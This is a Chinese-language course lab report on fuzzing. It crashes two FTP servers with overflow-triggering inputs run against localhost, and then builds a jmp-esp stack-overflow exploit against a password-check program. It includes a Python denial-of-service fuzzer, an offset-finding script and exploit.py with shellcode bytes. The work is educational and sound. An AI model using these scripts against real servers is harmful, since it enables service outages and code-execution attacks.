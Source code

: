 ```yaml
---
title: 漏洞挖掘与模糊测试 
date: 2019-11-29 0:06:38 
tags:
  - "网络空间安全"
  - "软件安全"
categories:
  - ["实验","软件安全"]
  - ["漏洞","拒绝服务"]
comments: true

---
```


## 目标

了解fuzz原理，使用此方法模糊测试两种ftp服务器软件的漏洞，使其停止工作。
<!-- more -->

## 测试步骤与结果

### Easy FTP Server的Fuzz过程（FtpFuzz工具法）

1. 打开 Easy FTP Server3.1，点击Start开始服务。 {% asset_img 1.png %}
2. 打开FTP Fuzzer，把USER和PASS的参数改为`anonymous`
   {% note warning %} 不要选中右上角的Fuzz this FTP command {% endnote %} {% grouppicture 2-2 %} {% asset_img 2.png %} {%
   asset_img 3.png %} {% endgrouppicture %}
3. 配置fuzz所用的脏数据，我们的目标是`LIST`指令。 {% grouppicture 2-2 %} {% asset_img 4.png "这回要选中Fuzz this FTP command" %} {% asset_img
   5.png "配置fuzzing data 为..?" %} {% endgrouppicture %}
4. 设置好服务器地址和端口，然后点击start开始。 {% asset_img 6.png %} {% asset_img 7.png %}
5. 在输出中时不时观察到有425错误：不能打开数据连接产生 {% asset_img 8.png %}
6. 出现红色的输出代表着FTP服务器已经宕机 {% asset_img 9.png %} {% asset_img 10.png "服务器端报错印证了这一点" %}
7. 查看同目录下的`ftptrace.txt`，发现是因为输入的命令过长，导致了服务器处理命令时缓冲区溢出，服务宕机。 {% asset_img 11.png %}

### Home FTP Server的Fuzz过程（python脚本法）

{% note fuzz源码 %}

```python fuzz.py
import socket,sys
def ftp_test(ip,port1):
    target = ip
    port = port1
    buf = 'a'*272
    j=1
    fuzzcmd = ['mdelete ','cd ','mkdir ','delete ','cwd ','mdir ','mput ','mls ','rename ','site index ']
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    try:
        connct = s.connect((target,port))
        print "[+] Connected!"
    except:
        print "[!] Connection Failed!"
        sys.exit(0)
    s.recv(1024)
    s.send('USER test\r\n')
    s.recv(1024)
    s.send('PASS 123456\r\n')
    s.recv(1024)
    print "[+] Sending payload..."
    for i in fuzzcmd:
        s.send(i + buf*j + '\r\n')
        s.send(i + buf*j*4 + '\r\n')
        s.send(i + buf*j*8 + '\r\n')
        s.send(i + buf*j*40 + '\r\n')
        try:
            s.recv(1024)
            print "[!] Fuzz failed!"
        except:
            print "[+] Maybe we find a bug!"

if __name__ == '__main__':
    ftp_test("127.0.0.1",21)
```

{% endnote %}

1. 首先让ollydbg附加进程到ftpserver上 {% asset_img 12.png %}
2. 运行脚本，发现全部输出了`fuzz failed`，但与此同时，ftp服务也停止了。下一次再运行脚本，就会输出`Connection failed`。 {% grouppicture 3-3 %} {% asset_img
   13.png "fuzz failed" %} {% asset_img 16.png "connection failed" %} {% asset_img 15.png "服务也停止了" %} {% endgrouppicture
   %}
3. 查看system log，发现其在接收两次过长参数的`site index`垃圾指令后停止运行。 {% asset_img 17.png %}
4. Homeftpserver发生崩溃时，跳转到`KERNEL32.77399ED8`时产生了异常`0EEDFADE`。 {% asset_img 14.png "系统异常" %}

## 测试结论

* 2.1实际上复现了Quick’n Easy FTP Server Lite Version 3.1远程拒绝服务漏洞[^1]，FTP协议中的`LIST`命令后的用户数据长度如果超过232，同时最后字符以`?`结尾，就会造成这个程序的崩溃。

* 2.2可以通过自己编写的fuzz代码实现对ftp服务器发送脏数据包以实现fuzz攻击，达到让目标服务器崩溃的效果。虽然可以找到崩溃的位置，但本次实验未能探究到崩溃的原因。

## 思考题

1. 初次运行结果如下，用IDA32位打开源程序进行逆向分析。 {% asset_img 思考-1.png %}
2. 整体过程就是加载`user32.dll`，打开`password.txt`读出内容，然后与`"1234567"`作比较，若相等，则通过验证。我们可以看到在`sub_401030`有一个无界写入有界的`strcpy`
   操作，很容易发生溢出，那么我们要怎么知道在什么时候发生溢出呢？ {% note info %} sub_401005仅仅是跳转到了sub_401030 {% endnote %} {% asset_img 思考-2.png %} {%
   asset_img 思考-3.png %}
3. 首先通过fuzz计算“缓冲区”大小。每次向里填充一个字符，最终计算出我们需要填充字符的数量为`11940`比特。在填充满之前，会引发右图所示错误，注意到其中有提示`"ESP was not properly saved"`
   ，说明ESP可能被覆盖掉了 

   {% note fuzz源码 %}

   ```python fuzz.py
   import os
   
   rpwd = "Congratulation! You have passed the verification!\n"
   wpwd = "incorrect password!\n"
   
   def write_file(num):
       with open("password.txt","w+") as fp:
           fp.write("a"*num)
   def get_output():
       p=os.popen("overflow_exe.exe")
       return "".join(p.readlines())
   
   def is_valid_output(output):
       try:
           return output in (rpwd,wpwd)
       except:
           return False
   
   def fuzz():
       i = 100
       breakout_num = 0
       for i in range(100,20000,100):
           write_file(i)
           if is_valid_output(get_output()):
               print "[+] Writing {} letters to password.txt".format(i)
               continue
           else:
               for j in range(i-100,i,10):
                   write_file(j)
                   if is_valid_output(get_output()):
                       print "[+] Writing {} letters to password.txt".format(j)
                       continue
                   else:
                       for k in range(j-10,j+1):
                           write_file(k)
                           if is_valid_output(get_output()):
                               print "[+] Writing {} letters to password.txt".format(k)
                               breakout_num=k
                               continue
                           else:
                               breakout_num=k
                               break
                           break
                   break
           break
       print "[*] The program broke up after %d bytes of 'a's."%breakout_num
   ```
   
   {% endnote %} 
   {% grouppicture 2-2 %} 
   {% asset_img 思考-4.png %} 
   {% asset_img 思考-9.png %} 
   {% endgrouppicture %}

4. 还有一个缓冲区？通过ollydbg调试可以看到在检验密码的函数中有一个`MOV,EAX 2EE4`操作，中间取了`[EBP-2EE4]`的有效地址，后面还有一个`ADD,ESP 2EE4`
   操作，可以推断这是再开辟另一块缓冲区，大小为十进制的`12004`字节。 {% asset_img 思考-7.png %}
5. 此时EBP的值为`0x35f20`。 {% asset_img 思考-8.png %}
6. 我们输入的“密码”被复制到了`0x3307c`开头的地址上。`0x35f20-0x3307c=11940`(10进制)，与之前fuzz结果相同，说明`11940`字节一旦占满，程序就会崩溃 {% asset_img 思考-6.png
   %} {% grouppicture 2-2 %} {% asset_img 思考-10.png %} {% asset_img 思考-11.png %} {% endgrouppicture %}
7. 上图是当`11940`个`"a"`被复制时，栈上的情况。可以看到`0x35f20`中的末两位被`11940`个`"a"`字符串的末尾`\0`所占，导致返回地址错误，程序崩溃 {% asset_img 思考-12.png %}
8. 所以这个缓冲区的大小为`11940-4（32位系统的ebp大小）=11936`字节。一旦缓冲区大小被计算出来，就可以根据前几次作业中缓冲区溢出的知识来通过“验证”。
9. 这次仍然利用`jmp esp`地址`77f8948b`作为跳板 {% asset_img 思考-5.png %}
10. Payload最终格式为：填充物（11940个a含4字节ebp）+`jmp_esp`地址+shellcode(`jmp 00401147`) 。构造password文档如下

```python exploit.py
def final_leak():
    shellcode = "\xe9\x1a\xb2\x3c\x00\x90\x90\x90"
    fill_in = "a"*11940+"b"*4
    with open("password.txt","w") as f:
        f.write(fill_in+jmp_esp+shellcode)
```

{% note warning %}

* 但是执行这个shellcode过后跳到了旁边的地址上，没有成功通过验证。只能在跳到`esp`地址后通过修改汇编以跳入验证成功语句中。
* 可能是指令在执行的过程中遇见了坏字符导致其在内存中的值发生了变化，致使执行不成功。
* 但是可以成功溢出，因为在调试的时候已经发现可以陷入内核中，从jmp esp地址中返回程序，shellcode被成功解析了。 {% asset_img 思考-13.png %} {% endnote %}

[^1]: [Quick 'n Easy FTP Server Lite 3.1 - Denial of Service](https://www.exploit-db.com/exploits/12853)
